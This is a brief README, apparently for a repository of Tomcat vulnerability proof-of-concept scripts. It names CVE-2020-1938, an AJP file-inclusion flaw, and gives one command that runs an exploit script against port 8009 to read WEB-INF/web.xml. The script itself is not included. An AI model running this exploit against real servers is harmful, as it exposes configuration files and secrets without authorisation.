 # Tomcat 漏洞Poc

* **CVE-2020-1938 文件包含**

  运行环境：python 2.7.*     Tomcat-Ajp  Port：8009

  ```shell
  Python CVE-2020-1938.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml
  ```

* **####**


